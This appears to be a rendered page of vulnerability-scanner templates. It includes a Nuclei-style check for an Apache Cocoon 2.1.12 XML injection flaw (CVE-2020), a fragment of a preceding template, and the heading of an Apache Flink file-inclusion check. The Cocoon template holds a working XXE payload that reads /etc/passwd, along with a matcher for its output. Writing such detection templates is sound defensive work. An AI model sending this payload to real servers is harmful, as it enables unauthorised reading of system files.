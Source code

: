 **Type - word**

- part - body
- words
  1. "dag_run_url":
  2. "dag_id":
  3. "items":
- condition - and

---

# Apache Cocoon 2.1.12 - XML Injection

## Description

- Apache Cocoon 2.1.12 is susceptible to XML injection. When using the StreamGenerator, the code parses a user-provided XML. A specially crafted XML, including external system entities, can be used to access any file on the server system.
- severity - high
- tags - cve,cve2020,apache,xml,cocoon,xxe

## Requests

- Method - POST
- Method - POST

### URL

- {{BaseURL}}/v2/api/product/manger/getInfo
  - 
    <!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
    <userInfo>
    <firstName>John</firstName>
    <lastName>&ent;</lastName>
    </userInfo>

### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:

**Type - status**

- status
  1. 200

---

# Apache Flink 1.5.1 - Local File Inclusion

